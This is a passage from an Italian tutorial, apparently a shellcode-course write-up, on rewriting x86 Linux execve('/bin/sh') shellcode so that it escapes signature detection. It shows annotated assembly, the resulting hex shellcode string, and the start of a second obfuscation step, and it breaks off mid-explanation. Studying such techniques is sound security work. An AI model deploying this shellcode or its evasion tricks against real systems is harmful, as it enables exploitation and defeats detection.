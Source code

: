 

## Primo passaggio: code refactoring

Nel primo passaggio di offuscamento, cambio il modo con cui i registri ECX ed
EDX sono inizializzati a 0.

Dopo aver inizializzato a 0 il registro EAX, ne salvo il valore all'interno
dello stack per 3 volte. Il primo sarà per costituire il terminatore di stringa
per il comando "/bin/sh", mentre gli altri due saranno immediatamente consumati
da una POP per inizializzare i registri ECX ed EDX.

{% highlight asm %}
global _start

section .text

_start:
; Executing shell
;
; int execve(const char *filename, char *const argv[], char *const envp[]);
; execve() is defined as #define __NR_execve 11 on /usr/include/i386-linux-gnu/asm/unistd_32.h

; first rewrite: we change the ecx and edx initialization to zero with push and
; pop right after eax is being set to 0

xor eax, eax
push eax	; The NULL byte
push eax	;
push eax 	;
pop ecx		; ECX set to 0
pop edx		; EDX set to 0

push 0x68732f2f ; "sh//". The second '\' is used to align our command into the stack
push 0x6e69622f ; "nib/"
mov ebx, esp	; EBX now points to "/bin//sh"

mov al, 0xB	; 11 in decimal
int 0x80
{% endhighlight %}

Codice esadecimale dello shellcode:
{% highlight sh %}
\x31\xc0\x50\x50\x50\x59\x5a\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
{% endhighlight %}



## Secondo passaggio: cambio meccanismo di inizializzazione

Nel secondo passaggio cerchiamo di complicare un po' le cose visto che, come si
può vedere dall'equivalente esadecimale il primo passaggio non ha inciso
particolarmente.

Ora cambiamo il meccanismo con cui inizializziamo a 0 i nostri registri. Usiamo
la matematica per mettere a 0 il registro ECX, caricando un valore costante a
32bit e poi sottraendo lo stesso valore.
